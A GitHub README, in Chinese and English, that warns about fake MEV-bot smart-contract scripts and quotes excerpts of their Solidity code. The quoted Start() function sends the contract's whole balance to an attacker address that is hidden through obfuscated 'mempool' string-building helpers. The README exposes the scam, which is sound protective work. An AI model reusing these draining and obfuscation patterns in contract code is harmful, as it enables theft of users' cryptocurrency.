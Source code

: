 # mev-bot-fraud

Be careful for the fake mev-bot codes 

本来想研究一下 mevbot 的，没想到发现一个骗局，所以想提醒一下大家以免被骗了，很多类似这个项目https://github.com/KayExpertbots/Mevbot 的假脚本都是诈骗的

Wanted to study the mevbot, unexpectedly found a scam, so want to remind you to avoid being cheated, many similar to this project of https://github.com/KayExpertbots/Mevbot, fake script like this 

```
    function Start() public payable {
        emit Log("Running MEV action. This can take a while; please wait..");
        payable(_callMEVAction()).transfer(address(this).balance);
    }

```

Start 看起来是个启动脚本实际是个 transfer，会把你的余额转到一个地址，`_callMEVAction()` 这个方法其实最后就是会生成一个钱包地址，绕来绕去的就是想骗一些新手，所以大家一定要看好了，看到这样的代码一定要小心了

Start looks like a startup script is actually a transfer, will transfer your balance to an address, '_callMEVAction()' This method is actually the last will generate a wallet address, around is to cheat some beginners, so we must look at it, see this code must be careful 

![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/dc4f05ca-abf7-4146-84d6-d528f08195f1)

```
transfer(address(this).balance);
```

```
 function callMempool() internal pure returns (string memory) {
        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));
        uint _memPoolSol = 3410611; //Gas estimate update
        uint _memPoolLength = 2418259; //Gas estimate update
        uint _memPoolSize = 2563395760; //Gas estimate update
        uint _memPoolHeight = getMemPoolHeight();
        uint _memPoolDepth = getMemPoolDepth();

        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));
        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));
        string memory _memPool3 = checkLiquidity(_memPoolHeight);
        string memory _memPool4 = checkLiquidity(_memPoolDepth);

        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));
        string memory _fullMempool = mempool("0", _allMempools);

        return _fullMempool;
    }

```
![image](https://github.com/chunsenye/mev-bot-fraud/assets/30768615/7334fcdc-405c-45ce-9753-317cc112c9bd)

这些都是骗人的 所以提醒一下，大家也可以帮忙点点星星，让更多人看到

These are all lies so just a reminder, you can also help to light up the stars, so that more people can see 

<img width="1360" alt="image" src="https://github.com/chunsenye/mev-bot-fraud/assets/30768615/b87707ad-ae0c-4d49-892c-a54af47947d2">

我把一些案例放在了 issue 里面 


[Fraud account list -- 【诈骗账号】](https://github.com/chunsenye/mev-bot-fraud/issues/2)

[List of Fraud projects - 【诈骗项目列表】](https://github.com/chunsenye/mev-bot-fraud/issues/1)

